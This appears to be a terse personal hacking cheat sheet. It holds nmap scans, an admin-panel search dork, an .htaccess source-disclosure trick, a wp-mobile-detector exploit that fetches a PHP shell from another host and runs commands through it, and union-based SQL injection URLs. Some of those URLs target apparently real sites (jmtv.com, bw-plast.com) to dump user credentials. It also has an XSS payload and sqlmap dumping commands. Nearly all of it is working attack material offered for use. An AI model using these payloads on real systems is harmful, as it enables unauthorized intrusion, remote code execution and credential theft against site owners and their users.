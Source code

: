 
.htaccess ===> allow php file to be read as plain text file
//insert .htaccess in your target directory and
edit .htaccess
AddType text/plain php

nmap -sV 108.167.180.197


site:bd/administrator

namp -A ip  ==> server version


exploit-db.com



http://192.168.0.120/wordpress/wp-content/plugins/wp-mobile-detector//themes/amanda-mobile/style.php?path=http://192.168.0.120/wordpress/api/websitez-options.json&ver=4.7

Search wp-mobile-detector exploit
//https://www.exploit-db.com/exploits/39891/


user agent switch to mobile view

http://192.168.0.120/wordpress/wp-content/plugins/wp-mobile-detector/resize.php?src=http://192.168.0.115/405.php
http://192.168.0.120/wordpress/wp-content/plugins/wp-mobile-detector/cache/system.php?cmd=dir


simple Upload
https://pastebin.com/Mx33JVWN



http://www.jmtv.com/news.php?id=-3 union select 1,2,/*!50000Group_cOncat(username,'==>',password,'<br/>')*/ from users--+

http://www.jmtv.com/news.php?id=-3 union select 1,2,(select (@x) from (select (@x:=0x00), (select (0) from (information_schema.columns) where (table_schema!=0x696e666f726d6174696f6e5f736368656d61) and (0x00) in (@x:=/*!50000concat*/(@x,0x3c62723e,table_schema,0x272d2d3e27,table_name,0x272d2d3e27,column_name))))x)--+


http://bw-plast.com/en/news.php?id=-2 UNION SELECT 1,2,3,4,(select (@x) from (select (@x:=0x00), (select (0) from (information_schema.columns) where (table_schema!=0x696e666f726d6174696f6e5f736368656d61) and (0x00) in (@x:=/*!50000concat*/(@x,0x3c62723e,table_schema,0x272d2d3e27,table_name,0x272d2d3e27,column_name))))x),6,7,8,9,10,11,12,13,14--+

XSS Form Action
http://192.168.0.115/xss/example8.php/"><script>alert(0)</script>


//by appending %0a ==> Line Break ==> filter will confuse
sqlmap -u -v "http://192.168.0.115/sqli/example7.php?id=2%0a" --current-db --level 3 --dbms=mysql  //Retrieve Current DB

sqlmap -u -v "http://192.168.0.115/sqli/example7.php?id=2%0a" --tables -D exercises  //Retrieve Tables

sqlmap -u -v "http://192.168.0.115/sqli/example7.php?id=2%0a" --columns -T users -D exercises //Retrieve Columns
